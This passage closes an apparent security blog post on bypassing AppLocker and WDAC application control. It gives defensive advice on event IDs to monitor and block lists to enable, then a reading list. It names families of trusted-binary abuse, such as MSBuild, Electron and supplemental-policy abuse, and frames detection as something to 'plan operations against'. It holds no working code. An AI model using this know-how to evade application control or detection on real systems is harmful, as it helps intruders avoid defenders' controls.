10. **Watch the right events.** 8004 (AppLocker block), 3076 / 3077 (CI block / audit), 3099 (CI policy refresh), 3023 / 3024 (driver load). All should be high-confidence alerts.
11. **Behavioral detection is now the primary line.** AppLocker / WDAC are preventive; what catches modern actors is process lineage, command-line analytics, and ETW. Invest there.



## VIII. Conclusion

A few revised takeaways for 2026:

1. **WDAC genuinely reduces attack surface.** Real, measurable, hard-fought. It is *not* security theater. UMCI + HVCI together force attackers into a much narrower lane than a defenseless box.
2. **Trusted execution remains the central weakness.** Every successful bypass in this post is *not* unsigned-code execution, it's coercing a *trusted* binary to do the attacker's bidding. Electron, MSBuild, Managed Installer, ISG, and supplemental-policy abuse are all variants of the same shape: the policy correctly trusts a thing; the thing was never designed assuming hostile input.
3. **Modern detection is behavioral, not execution-allowlist-based.** AppLocker / WDAC tell you what *can* run. EDR + ETW + process-lineage tell you what *is running*. The interesting alerts in 2026 come from the second category. Plan operations against the second category, not the first.

If you run AppLocker or WDAC, the most useful thing you can do this week:

- Confirm your policy actually contains both the **Recommended Block Rules** and the **Vulnerable Driver Blocklist**.
- Subscribe to events **8004, 3077, and 3099** with the same priority as a credential-dump alert.
- Pick three techniques from this post, build a controlled lab, and verify whether your detections fire. If they don't, you now have specific test cases.

### Further reading

- [LOLBAS project](https://lolbas-project.github.io), trusted-binary abuse catalog.
- [LOLDrivers](https://loldrivers.io), vulnerable signed driver catalog.
- [Microsoft WDAC documentation](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/), policy authoring, recommended block lists, MI, ISG, supplementals.
- [Microsoft Recommended Driver Block Rules](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-driver-block-rules), separate from the user-mode block list.
- Sysinternals [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), the working tool for DLL-search analysis.
- Matt Graeber's WDAC / AppLocker research, the foundational work.
- Casey Smith's original LOLBin posts, the genre's origin.
- Bohops, Olaf Hartong, NetSPI blogs, modern WDAC abuse including MI and supplementals.
